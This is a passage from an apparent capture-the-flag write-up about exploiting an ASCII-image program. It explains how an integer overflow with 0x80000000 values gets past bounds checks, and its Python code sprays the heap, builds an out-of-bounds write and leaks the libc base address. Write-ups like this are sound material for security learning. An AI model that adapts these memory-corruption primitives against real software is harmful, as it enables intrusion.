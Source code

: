 ```
0 = 0 * 0x80000000
0 = 0 / 0x80000000
```

Bypassing the fourth check is easy. Any number plus zero is equal to itself.
The fifth check doesn't depend from the coordinates but from the image's metadata and with the image I used is already bypassed.

```
positive_number + 0x80000000 >= 0x80000000
```

And the last one too, given that #cols * #rows is a huge positive number which is truncated to 32 bit and gives 0. Thus,

```
positive_number + 0x80000000 < 0
```

is always true.

Moreover, the coordinate is casted to an unsigned int, so we can change any value starting from the ascii image up to the 0xFFFF-th byte of itself.

## The exploit

The first step was to create enough ascii images in order to have a page below the FS page.

```python
for i in range(5):
        for j in range(16):
            uploadAscii(str(32 * i + j).rjust(7, '0'), image)
```

Then, I created one image to write and one image to read. The image to write was the one with columns, rows and offset equal to 0x80000000. The image to read was a standard image.

```python
uploadAscii('WRITE00', image, 0x80000000, 0x80000000, 0x80000000)
uploadAscii('READ000', image)
```

In order to leak the libc base address, I just changed the offset of the image used to read with a value that is the difference between `fs[-8]` and the address of that image. In this way, the print grid function will print the value of `fs[-8]` in the firsts 8 bytes.

```python
moveToAsciiShop()
touchupAscii('WRITE00')
changePixel(OFFSET_OFFSET, 0, chr(OFFSET_LEAK_LIBC & 0xFF))
changePixel(OFFSET_OFFSET + 1, 0, chr((OFFSET_LEAK_LIBC >> 8) & 0xFF))
quitTouchup()
touchupAscii('READ000')
leak = printGrid()
leak = leak.split(' 0 |')[1].split('\n')[0].replace('ffffff', '').replace('   ', ' \x00').replace('  ', ' ')
leak = leak.split(' ')[1:]
libc_base = 0
for i in range(6):
    if len(leak[i]) == 2:
        libc_base += int(leak[i], 16) << (8 * i)
    else:
        libc_base += ord(leak[i]) << (8 * i)
print 'LIBC base: ' + hex(libc_base)
quitTouchup()
```
